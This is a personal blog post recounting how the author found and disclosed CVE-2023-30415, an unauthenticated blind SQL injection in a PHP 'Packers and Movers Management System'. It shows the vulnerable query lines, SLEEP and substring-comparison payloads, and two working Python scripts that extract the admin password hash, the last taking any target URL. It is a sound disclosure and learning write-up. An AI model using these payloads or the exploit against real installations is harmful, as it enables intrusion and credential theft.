 ```yaml
---
layout: post
title: Getting my first CVE
description: The frustrations and thrills of open source code review.
summary: An OSWE victory lap.
tags: reflections tutorials
---
```



After passing my OSWE in March and dealing with some long neglected life issues, I decided to put my skills to the test and hunt for a CVE. It felt like a rite of passage for OSWE passers. 

**Recon**

My first approach was to find projects written in languages that are easy to make mistakes in but that are also very popular. PHP is the prime candidate here, so I looked up php open source projects on google and quickly discovered sourcecodetester.com among the first results.

![](/assets/images/sourcecodetester.png)

I started perusing through random projects and downloading them locally to run them. This approach netted me a substantial number of critical findings, but whenever I wanted to report them to MITRE, I would find out that they were already assigned a CVE. Nonetheless, it was a nice confidence booster that I was able to find those vulnerabilities so easily. 

This meant I had to up my game a bit. I had to look for projects that were at least somewhat secure. After a more careful analysis, I found the [Packers and Movers Management system](https://www.sourcecodester.com/php/15360/packers-and-movers-management-system-phpoop-free-source-code.html)

What caught my attention on this project was that the admin pages called in a header function that itself was checking for session. 


![](/assets/images/header.png)

![](/assets/images/session.png)


This was good news, it meant that whoever designed this took some authorization considerations into account.

**Exploit Discovery**

I took a shortcut here, and instead of following user input paths like I normally do, I went straight to the source code and searched for "query" in an attempt to grab an easy win. 

![](/assets/images/query.png)

I found some results, but they were all behind the dreaded admin login, which would drastically reduce the impact of those findings.

However, upon a closer inpection, I quickly realized that the header function was only used for the direct subpages of /admin, but would often not be used deeper into the application.

As an example, /admin/index.php uses the header, but /admin/inquiries/view_inquiry.php does not and also uses an unsanitized query right at the start of the file!

![](/assets/images/inquiry.png)

I was able to locate this particular piece of code in the application.

![](/assets/images/page.png)

This meant that any input after the id parameter would pass unfiltered through these 2 lines:
```php
    $conn->query("UPDATE `inquiry_list` set `status` = 1 where id = '{$_GET['id']}'");
    $qry = $conn->query("SELECT **  from `inquiry_list` where id = '{$_GET['id']}'");
```

Since view_inquiry.php does not use the session header, it means that we can attack the id parameter without any need for authentication. 

Let's test it with a classic SLEEP payload:

```text
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(SELECT+1+FROM+(SELECT(SLEEP(2)))test)--+
```

![](/assets/images/sleep.png)

Looking at the response time, we can see it took just over 8 seconds, which happens because the id parameter is passed through two querries. That confirms our Blind SQL Injection.

Let's experiment with some more payloads and look if there are any differences in the content length.

```text
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(ascii(substring((SELECT+password+FROM+mpms_db.users+WHERE+id=1+LIMIT
+1),1,1))=48)--+ 
GET /mpms/admin/?page=inquiries/view_inquiry&id=4'+AND+(ascii(substring((SELECT+password+FROM+mpms_db.users+WHERE+id=1+LIMIT
+1),1,1))=47)--+ 
```

![](/assets/images/fuzz1.png)
![](/assets/images/fuzz2.png)

It does look like we get different content lengths when the query fails to execute. This means we can start working on an exploit right away.

**The Exploit**

The exploit is actually surprisingly simple. I ended up pruning the GET request of all uneccessary headers to get the request size down, wrote a for loop for the Blind SQL Injection and then a get_token function to store the token. Here it is:

```python
import requests

session = requests.session()

expected_size = 26845

def get_char(session, pos):
    for char in range(32, 126):
        sql_payload = f'\' AND (ascii(substring((SELECT password FROM mpms_db.users WHERE id=1 LIMIT 1),{pos},1))={char})-- '
        r = session.get('http://localhost:80/mpms/admin/?page=inquiries/view_inquiry&id=4' + sql_payload)
        #print(len(r.content))
        if len(r.content) == expected_size:
            return chr(char)
    print('Error at ' + str(char))
    exit()

def get_token(session):
    token = ""
    for pos in range(1, 33):
        token += get_char(session, pos)
    print("The Full MD5 password is " + str(token))    
    return token

get_token(session)
```

All that preparation for 25 lines of code. Let's run it and wait a few seconds:

![](/assets/images/exploit.png)

We now have our MD5 password. Passing it through an online hash cracker, we get the password admin123:

![](/assets/images/cracked.png)

Which is exactly the password used in the source page:

![](/assets/images/source.png)

**The Report**

With those proofs in hand, I used the CVE MITRE website to complete the form and report the CVE via [https://www.cve.org/ReportRequest/ReportRequestForNonCNAs](https://www.cve.org/ReportRequest/ReportRequestForNonCNAs).


After about a month, I received my CVE ID, CVE-2023-30415

![](/assets/images/cve.png)

I have emailed sourcecodester.com with a detailed explanation of the exploit and the proof of concept. Considerably way over 90 days have passed since, so this is me making it public as according to the reasonable disclosure procedure.

Overall, I had a lot of fun finding my first CVE, as trivial as it was. It helped me developed my own confidence and ability to quickly scan code repos for common mistakes. I have been busy with other interests lately but I have managed to secure a decent amount of AppSec and code review engagements at work, so I have been doing my best to keep learning and hone my skills even if I am not actively hunting for CVEs. I would recommend any aspiring AppSec hacker to have a go at it, even if you don't manage to secure a CVE, just finding some vulnerabilities will do wonders for your confidence.

Before I go, here is a more updated version of the exploit:

```python
import requests
import sys

session = requests.session()

expected_size = 26845

if len(sys.argv) < 2:
    print("Usage: python exploit.py <URL>")
    sys.exit(1)

url = sys.argv[1]

def get_char(session, pos):
    for char in range(32, 126):
        sql_payload = f'\' AND (ascii(substring((SELECT password FROM mpms_db.users WHERE id=1 LIMIT 1),{pos},1))={char})-- '
        r = session.get(url + '/mpms/admin/?page=inquiries/view_inquiry&id=4' + sql_payload)
        #print(len(r.content))
        if len(r.content) == expected_size:
            return chr(char)
    print('Error at ' + str(char))
    exit()

def get_token(session):
    token = ""
    for pos in range(1, 33):
        token += get_char(session, pos)
    print("The Full MD5 password is " + str(token))    
    return token

get_token(session)
```
